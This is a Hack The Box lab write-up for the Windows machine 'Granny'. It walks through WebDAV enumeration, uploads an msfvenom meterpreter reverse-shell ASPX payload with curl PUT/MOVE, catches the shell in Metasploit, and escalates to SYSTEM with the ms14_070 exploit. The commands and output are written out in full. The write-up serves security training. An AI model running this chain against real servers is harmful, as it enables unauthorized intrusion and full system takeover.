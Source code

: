 ```yaml
---
layout: writeup
show-avatar: false
redirect_from: /walkthroughs/granny.html
title: Granny
logo: /assets/img/writeups/htb/boxes/granny/granny_logo.png
platform: HTB
category: Boxes
OS: Windows
difficulty: Easy
release: 12 Apr 2017
creator: <a href="https://www.hackthebox.eu/home/users/profile/1">ch4p</a>
published: 2019 11 12
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Tue Nov 12 17:01:01 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.080s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Tue, 12 Nov 2019 22:03:04 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:03:00 2019 -- 1 IP address (1 host up) scanned in 118.58 seconds
```

we see the only open port is **80** and if we navigate to the page we see a default "Under Construction" page. However we see from the scan that it using webDAV. So lets run **davtest**

![davtest](/assets/img/writeups/htb/boxes/granny/granny_davtest.png)

Looking at the output of running **nikto** we see that the server is running ASP.net.

```
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.15
+ Target Port: 80
+ GET Retrieved microsoftofficewebserver header: 5.0_Pub
+ GET Retrieved x-powered-by header: ASP.NET
<...>
```

However davtest shows us that we can't use PUT to upload an asp or aspx file. However running davtest with the -move flag

```
root@kali:~/HTB/Boxes/Granny# davtest -url http://10.10.10.15 -move                       <...>  
Sending test files (MOVE method)
<...>
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_asp.txt
MOVE    asp     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.asp                               <...>
http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.cfm
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_aspx.txt
MOVE    aspx    SUCCEED:
<...>
```

shows us that we can use MOVE to change a file extension to .asp or .aspx

With that knowledge, let's create an .aspx payload and upload it as a .html file and rename it to .aspx file

<h3 align="center">Explotation</h3>

Let's create a payload with **msfvenom**

```sh
root@kali:~/HTB/Boxes/Granny# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o hilbert.html                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2818 bytes 
Saved as: hilbert.html
```

Now we'll use **curl** to upload the file to the server and change the extension

```sh
root@kali:~/HTB/Boxes/Granny# curl http://10.10.10.15 --upload-file hilbert.html
root@kali:~/HTB/Boxes/Granny# curl -X MOVE --header 'Destination:http://10.10.10.15/hilbert.aspx' 'http://10.10.10.15/hilbert.html'
```

Then we will run **Metasploit** and use a multi hander to listen for our shell

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
```

Then we will direct our browser to hilbert.aspx to activate our reverse shell

```
[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Sending stage (180291 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.15:1031) at 2019-11-18 16:30:40 -0500

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Next we will use exploit suggester to find a vulnerability we can use for privilege escalation

```
meterpreter > bg
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(multi/handler) > use 0
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

The exploit that will work is "exploit/windows/local/ms14_070_tcpip_ioctl"

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > session -i 1
[-] Unknown command: session.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

We now have full access to the system and can read the user.txt and root.txt flags.
